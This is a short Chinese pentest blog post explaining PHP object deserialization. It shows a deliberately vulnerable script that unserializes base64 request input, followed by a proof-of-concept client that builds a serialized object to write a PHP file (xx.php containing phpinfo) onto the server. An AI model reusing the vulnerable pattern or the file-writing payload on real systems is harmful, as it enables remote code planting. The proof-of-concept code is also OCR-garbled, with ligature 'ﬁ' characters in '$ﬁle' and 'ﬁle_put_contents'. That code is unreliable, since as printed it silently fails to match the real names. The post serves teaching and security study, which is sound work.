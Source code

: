 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "PHP反序列化漏洞"
topics = ["Pentest", "PHP"]

+++

## 这里是正文

### 0x00 关于反序列化漏洞
> 序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  
若服务端有如下代码：
```php
<?php
    class foo{
        public $file = "test.txt";
        public $data = "123456";

        function __destruct(){
            file_put_contents($this->file,$this->data);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize(base64_decode($d));
    var_dump($tc);
?>
```
客户端可构造如下代码生成序列化后的字符串提交给服务端，  
服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
```php
<?php
    class foo {
        public $ﬁle = "test.txt";
        public $data = "123456";
        
        function __destruct() {
            ﬁle_put_contents($this->ﬁle, $this->data);
        }
    }

    $f = new foo();
    $f->ﬁle = "xx.php";
    $f->data = "<?php phpinfo(); ?>";
    echo base64_encode(serialize($f));
?>
```